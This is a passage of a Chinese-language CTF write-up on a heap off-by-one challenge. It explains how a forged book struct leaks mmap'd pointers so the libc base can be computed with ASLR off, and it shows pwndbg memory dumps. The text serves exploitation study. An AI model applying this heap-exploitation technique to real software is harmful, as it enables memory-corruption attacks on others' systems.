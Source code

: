>    0x7ffff7f9c000     0x7ffff7fe2000 rw-p    46000 0 
>   为mmap扩展的堆空间

根据网上其他wp说法，只有接近或者超过top_chunk的size大小的时候才会使用mmap进行扩展

如果vmmap后有mmap，就可以判断输入多大的数值了。**如果像上图一样并没有mmap的标识，可以查看是否存在紫色不断变换空间大小的data段。**

由于关闭了aslr，所以libc.so的基地址就不会发生变化了，因为book2的结构体成员的地址所属为mmap申请的空间，由于mmap地址不变、libc.so基地址不变，就会导致book2成员变量中的地址所在位置距离libc.so的偏移不变。那么如果可以通过泄露book2结构体成员变量中的地址的话，减去这个偏移就会得到libc.so的基地址。一旦得到了libc.so的基地址，就可以利用pwntools找到一些可以利用的函数了。

说了这么多，要想达到上面的效果，就要从部署伪造的结构体开始。首先是fake_book_id，如果是替换book1，那么这个fake_book1的id就必须为1，这样才能按照第一个book的形式替代原有的book1.接下来是fake_book1_name，这里我们将指向book2_name的地址，fake_book1_desc指向book2_desc的地址。这样一来我们再一次执行打印功能的时候就会将book2_name和book2_desc的地址打印出来了。

![](堆中的off-by-one//1616265224978.png)

之前的：

```
pwndbg> x/32gx 0x0000555555757760
0x555555757760:	0x0000000000000001	0x0000555555757670
0x555555757770:	0x0000555555757690	0x00000000000000c8
0x555555757780:	0x0000000000000000	0x0000000000000031
0x555555757790:	0x0000000000000002	0x00007ffff7fbe010
0x5555557577a0:	0x00007ffff7f9c010	0x0000000000021000
0x5555557577b0:	0x0000000000000000	0x0000000000020851
```

可以看到book2_name在0x00007ffff7fbe010的位置，book2_desc在0x00007ffff7f9c010的位置。

接下来查看伪造结构体前内存地址的内容：

```
pwndbg> x/32gx 0x0000555555757700
0x555555757700:	0x0000000000000000	0x0000000000000000
0x555555757710:	0x0000000000000000	0x0000000000000000
0x555555757720:	0x0000000000000000	0x0000000000000000
0x555555757730:	0x0000000000000000	0x0000000000000000
0x555555757740:	0x0000000000000000	0x0000000000000000
0x555555757750:	0x0000000000000000	0x0000000000000031
0x555555757760:	0x0000000000000001	0x0000555555757670#book1
0x555555757770:	0x0000555555757690	0x00000000000000c8
0x555555757780:	0x0000000000000000	0x0000000000000031
0x555555757790:	0x0000000000000002	0x00007ffff7fbe010#book2
0x5555557577a0:	0x00007ffff7f9c010	0x0000000000021000
0x5555557577b0:	0x0000000000000000	0x0000000000020851
0x5555557577c0:	0x0000000000000000	0x0000000000000000
0x5555557577d0:	0x0000000000000000	0x0000000000000000
0x5555557577e0:	0x0000000000000000	0x0000000000000000
0x5555557577f0:	0x0000000000000000	0x0000000000000000
```

